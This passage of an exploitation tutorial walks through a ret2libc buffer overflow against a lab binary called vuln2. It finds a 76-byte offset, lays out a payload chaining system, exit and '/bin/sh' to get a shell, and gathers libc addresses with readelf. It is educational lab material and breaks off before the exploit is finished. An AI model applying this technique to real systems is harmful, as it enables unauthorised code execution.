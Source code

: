 ```
��
Segmentation fault
```
Ok crashes so now if 76 doesnt crash the program then this is the buffer length
```
vagrant@precise32:/vagrant$ ./vuln2 $(python -c 'print "A"*76') 
��
```
Ok the program doesnt crash (it doesnt exit either) so 76 is our offset (spoiler
its exactly the same as level one!! I know you're shoked right!)

# Plan of attack
So we cant run code on the stack and we are not using a debugger so here is what
we are going to do.

We are going to overflow the return address to return to system and execute
/bin/sh. In order to do this we need to create a fake stack. Lets remind
ourselves how this looks.
```
ebp
return address
args
```
We want our shell to exit cleanly so we will return to exit of the system call.
System also requires on argument, the address of a string containing the command
we want to run. Our Payload will now look as follows
```
76 * "A" + address of system + address of exit + address of /bin/sh
```
The address of exit is used as the return address after the system call and the
address of /bin/sh is used as the argument to system

# Gathering data

## Libc base address
This one is fairly easy just use the LD_TRACE_LOADED_OBJECTS env var when
running the binary 
```
vagrant@precise32:/vagrant$ LD_TRACE_LOADED_OBJECTS=1 ./vuln2 AAAAAA
	linux-gate.so.1 =>  (0xb7fdd000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e29000)
	/lib/ld-linux.so.2 (0xb7fde000)
```
The address `0xb7e29000` next to the libc line is the base address

## Address of system + exit
For this one we will use the readelf tool on the libc binary and grep for the
requiored symbols
```
vagrant@precise32:/vagrant$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   239: 001202b0    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   615: 0003f0b0   141 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1422: 0003f0b0   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
vagrant@precise32:/vagrant$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   109: 00033000    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   136: 00032bf0    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   549: 000baf68    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   604: 001234b0    68 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   640: 00032fd0    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   856: 00032e30    58 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1024: 0012d6d0    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1359: 001a8224     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
```